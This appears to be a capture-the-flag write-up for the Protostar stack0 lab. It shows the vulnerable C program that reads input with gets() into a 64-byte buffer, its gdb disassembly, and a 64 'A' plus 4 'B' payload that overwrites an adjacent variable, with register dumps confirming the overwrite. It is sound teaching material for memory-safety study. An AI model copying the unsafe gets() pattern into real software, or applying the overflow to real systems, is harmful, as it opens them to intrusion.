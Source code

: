 # protostar_writeups

stack0 :
   
   Source code fir this challenge is 
   ```
    #include <stdlib.h>
    #include <unistd.h>
    #include <stdio.h>

    int main(int argc, char **argv)
    {
      volatile int modified;
      char buffer[64];

      modified = 0;
      gets(buffer);

      if(modified != 0) {
          printf("you have changed the 'modified' variable\n");
      } else {
          printf("Try again?\n");
      }
    }
   ```
   
   We need to change the integer called modified to something that is not zero.
   
   run stack0 in gdb and disassemble main
   
   ```
   (gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0               
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]               ; modified is loaded onto eax
0x08048415 <main+33>:   test   eax,eax                                ; test if eax is 0
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
   ```
   
   Variable can be changed if we give any input with length > 64 and "modified" will be overwritten by next 4 bytes. Construct a payload with 64*'A' and 4 'B'(this is just to ensure that we have control over the variable). break at 0x08048417 to check if we have control over modified variable. Using the payload mentioned above(64*'A'+4*'B') eax should have a value of 0x42424242(nothing but BBBB)
   
   ```
   End of assembler dump.                                                                  
(gdb) b *0x08048417                                                                     
Breakpoint 1 at 0x8048417: file stack0/stack0.c, line 13.                               
(gdb) r < /tmp/s0.txt                                                                   
Starting program: /opt/protostar/bin/stack0 < /tmp/s0.txt                               
                                                                                        
Breakpoint 1, 0x08048417 in main (argc=1, argv=0xbffff864) at stack0/stack0.c:13        
13      stack0/stack0.c: No such file or directory.                                     
        in stack0/stack0.c                                                              
(gdb) i r                                                                               
eax            0x42424242       1111638594                                              
ecx            0xbffff76c       -1073744020                                             
edx            0xb7fd9334       -1208118476                                             
ebx            0xb7fd7ff4       -1208123404                                             
esp            0xbffff750       0xbffff750                                              
ebp            0xbffff7b8       0xbffff7b8                                              
esi            0x0      0                                                               
edi            0x0      0                                                               
eip            0x8048417        0x8048417 <main+35>                                     
eflags         0x200206 [ PF IF ID ]                                                    
cs             0x73     115                                                             
ss             0x7b     123                                                             
ds             0x7b     123                                                             
es             0x7b     123                                                             
fs             0x0      0                                                               
gs             0x33     51                                                              
(gdb)                                                                                   
   ```
   eax has changed to 0x42424242 thus overwrote "modified" 
   ```
   user@protostar:/opt/protostar/bin$ ./stack0 < /tmp/s0.txt
   you have changed the 'modified' variable
   ```
   
   
   
   
